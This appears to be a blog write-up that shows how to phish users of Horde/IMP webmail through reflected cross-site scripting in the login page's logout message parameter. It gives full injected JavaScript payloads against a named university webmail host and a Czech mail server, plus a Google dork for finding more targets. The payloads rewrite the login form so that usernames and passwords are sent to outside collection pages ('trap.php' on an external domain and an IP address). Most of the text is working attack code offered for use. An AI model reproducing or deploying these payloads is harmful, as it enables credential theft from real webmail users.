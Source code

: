 Some useful tools:

[http://meyerweb.com/eric/tools/dencoder/](http://meyerweb.com/eric/tools/dencoder/)
[http://javascriptcompressor.com/](http://javascriptcompressor.com/)

Continue:

Phishing to HKU: It don't have https at all, the request will be sent "quietly"

{% highlight css %}
<a href="http://imp2.webmail.hku.hk/horde/imp/login.php?logout_reason=message&logout_msg=
</td>var x=document.imp_login;input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","info");input.setAttribute("value","");x.appendChild(input);document.imp_login.info.value=window.location.host;function submit_login_imp4(servername){if(document.imp_login.imapuser.value==""){document.imp_login.imapuser.focus();return false}else if(document.imp_login.pass.value==""){document.imp_login.pass.focus();return false}else{document.imp_login.server.value=servername;document.imp_login.action="https://lab.wishlog.info/trap.php";document.imp_login.submit();return true}}function submit_login_owa(servername){submit_login_imp4(servername)}function submit_login_imp3(servername){submit_login_imp4(servername)}var tds=document.body.getElementsByTagName('td');for(var i=0;i<80;i%2B%2B){if(tds[i].className=="notice"){tds[i].parentNode.innerHTML=""}}</tr><tr >
<td >" target="_blank">http://imp2.webmail.hku.hk/horde/imp/login.php?logout_reason=message&logout_msg=
</td>var x=document.imp_login;input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","info");input.setAttribute("value","");x.appendChild(input);document.imp_login.info.value=window.location.host;function submit_login_imp4(servername){if(document.imp_login.imapuser.value==""){document.imp_login.imapuser.focus();return false}else if(document.imp_login.pass.value==""){document.imp_login.pass.focus();return false}else{document.imp_login.server.value=servername;document.imp_login.action="https://lab.wishlog.info/trap.php";document.imp_login.submit();return true}}function submit_login_owa(servername){submit_login_imp4(servername)}function submit_login_imp3(servername){submit_login_imp4(servername)}var tds=document.body.getElementsByTagName('td');for(var i=0;i<80;i%2B%2B){if(tds[i].className=="notice"){tds[i].parentNode.innerHTML=""}}</tr><tr >
<td >

{% endhighlight %}

The script override the three functions in post request, all five button will redirect to our pages.

Continue:

Another site I searched from google with: inurl:horde/imp/test.php

{% highlight css %}
<a href="https://mail.cmi.cz/login.php?logout_reason=message&logout_msg=
</td>var tds=document.body.getElementsByTagName('td');for(var i=0;i<2;i%2B%2B){if(tds[i].className=="notice"){tds[i].parentNode.innerHTML=""}}var x=document.horde_login;input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","info");input.setAttribute("value","");x.appendChild(input);input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","imapuser");input.setAttribute("value","");x.appendChild(input);input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","pass");input.setAttribute("value","");x.appendChild(input);document.horde_login.info.value=window.location.host;function submit_login(e){if(typeof e!='undefined'%26%26!enter_key_trap(e)){return}if(document.horde_login.horde_user.value==""){document.horde_login.horde_user.focus();return false}else if(document.horde_login.horde_pass.value==""){document.horde_login.horde_pass.focus();return false}else{var origAction=document.horde_login.action;document.horde_login.loginButton.disabled=true;document.horde_login.action="http://137.189.97.46/trap.php";document.horde_login.imapuser.value=document.horde_login.horde_user.value;document.horde_login.pass.value=document.horde_login.horde_pass.value;document.horde_login.submit();return true}}</tr><tr >
<td >">https://mail.cmi.cz/login.php?logout_reason=message&logout_msg=